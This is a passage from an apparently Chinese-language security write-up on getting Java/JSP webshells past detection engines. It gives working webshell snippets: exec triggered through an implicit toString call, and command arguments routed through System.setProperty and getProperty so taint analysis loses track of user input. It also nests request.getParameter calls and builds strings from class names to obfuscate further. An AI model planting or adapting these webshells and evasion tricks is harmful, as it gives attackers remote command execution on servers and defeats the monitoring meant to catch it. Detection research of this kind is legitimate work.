   java中存在一些语法糖，如果引擎未能对这类模式进行识别，则也可以产生绕过。

  ```java
  <%
  	class a{
  	    public String toString(){
  	        exec();
  	    }
  	}
  	throw new NullPointerException(new a()+"");
  %>
  ```

  对对象进行字符串拼接时，会隐式的调用其`toString`方法。类似还有`hashCode`之类的方法。
* 隐藏污点传播。

  单是上面几类绕过，更多的是阻断引擎发现我们的意图是在执行危险的sink，在很多时候还是无法绕过真实的检测引擎。有一个重要原因是source点往往会或多或少的暴露我们的真实意图。拿上面这个样本来说：

  ```java
  a.setDataSourceName(request.getParameter("url"));
  ```

  JdbcRowImpl的利用模式在Java安全太过出名，所以它还是具备很强的WebShell特征，另外引擎在模拟污点分析过程中对于source的跟踪和检测也比较容易发现一些我们想隐藏的意图。因此还有一个重要的绕过点，就是对于污点的隐藏，切断引擎对污点传播的分析。

  一种很好用的方法是利用全局变量：

  利用System类的`setProperty`和`getProperty`方法进行参数的传递。引擎很难判断exec的参数System.getProprety("test")是来自用户输入的污点。

  ```java
  <%
      System.setProperty(request.getParameter("a"),request.getParameter("b"));
      Runtime.getRuntime().exec(System.getProperty("test"));
  %>
  ```

   ![](/img/aiWebshell/841bfb49-b093-4eb7-9559-e19053e59571.png) ![](https://prod-files-secure.s3.us-west-2.amazonaws.com/a116b209-23ed-47e3-b176-d57fece98279/32b2d52f-f70e-452a-be85-3f04093b6bc2/Untitled.png)

  一切出现字符串的地方都可以用request.getParameter代替。因此request.getParameter()的参数也可以递归放入request.getParameter()，并且最终也可以不使用硬编码的字符串，而是在系统中寻找一些字符串作为参数，加强混淆效果，例如：

  ```java
  <%
      System.setProperty(request.getParameter(request.getParameter(this.getClass().getName())),request.getParameter(request.getParameter(this.getClass().getPackage().getName())));
      Runtime.getRuntime().exec(System.getProperty(this.toString().substring(0,this.toString().indexOf("@"))));
  %>
  ```
